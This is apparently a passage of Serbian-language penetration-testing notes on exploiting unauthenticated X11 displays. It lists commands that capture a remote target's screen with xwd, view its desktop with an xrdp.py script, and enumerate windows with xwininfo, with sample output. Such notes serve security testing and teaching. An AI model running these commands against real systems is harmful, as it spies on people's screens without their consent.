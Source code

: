 ## Snimanje snimaka ekrana

Snimanje snimaka ekrana je tehnika koja se koristi u procesu testiranja penetracije kako bi se prikupile informacije o aktivnostima na ciljnom sistemu. Ova tehnika omogućava hakerima da snime slike ekrana i pregledaju ih kasnije radi analize.

Da biste snimili snimak ekrana, možete koristiti različite alate kao što su `scrot`, `import` ili `gnome-screenshot`. Ovi alati omogućavaju snimanje trenutnog sadržaja ekrana i čuvanje snimka u odabranom formatu.

Na primer, možete koristiti sledeću komandu za snimanje snimka ekrana koristeći `scrot`:

```bash
scrot screenshot.png
```

Ova komanda će snimiti trenutni sadržaj ekrana i sačuvati ga kao `screenshot.png` u trenutnom direktorijumu.

Nakon što snimite snimak ekrana, možete ga pregledati koristeći pregledač slika ili alate za uređivanje slika kao što su `feh`, `eog` ili `gimp`.

Važno je napomenuti da prilikom snimanja snimaka ekrana tokom testiranja penetracije treba biti oprezan kako se ne bi otkrile osetljive informacije ili lični podaci. Takođe, treba se pridržavati zakonskih propisa i etičkih smernica prilikom korišćenja ove tehnike.

```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```

## Prikaz udaljenog radnog okruženja

Putanja: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

```
./xrdp.py <IP:0>
```

Putanja: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

Prvo moramo pronaći ID prozora koristeći xwininfo.

```
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
```